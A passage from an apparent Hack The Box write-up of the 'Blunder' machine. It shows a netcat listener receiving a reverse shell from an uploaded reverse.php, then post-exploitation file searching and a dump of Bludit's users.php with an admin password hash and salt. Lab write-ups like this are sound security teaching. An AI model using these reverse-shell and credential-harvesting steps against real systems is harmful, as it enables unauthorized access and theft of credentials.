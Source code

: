 

Then with our netcat listener up we visit http://10.10.10.191/bl-content/tmp/reverse.php

```
hilbert@kali:~/HTB/Machines/Blunder$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.13.31] from (UNKNOWN) [10.10.10.191] 44438
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Whichever method you choose, we now have access as user **www-data**.

One of the things we could have done when looking around a bit more before jumping into brute forcing was explore the structure of the webpage after we learned Bludit was running on it. We would have seen that there was a databases directory

![databases](/assets/img/writeups/blunder_databases.png)

We had to use a password to login, and those have to be stored somewhere, so this seems like a good place to look now that we have access. Using the find command and outputting errors to /dev/null so our screen isn't a mess of "Permission denied"'s we see

```
www-data@blunder:/home$ find / -name databases 2>/dev/null
/var/www/bludit-3.10.0a/bl-content/databases
/var/www/bludit-3.9.2/bl-content/databases
```

Interesting, it looks like a newer version of Bludit is also installed. Checking the 3.9.2 version first, if we look at **users.php** in the database directory, we see entries for an admin and fergus.

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
<...>
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
```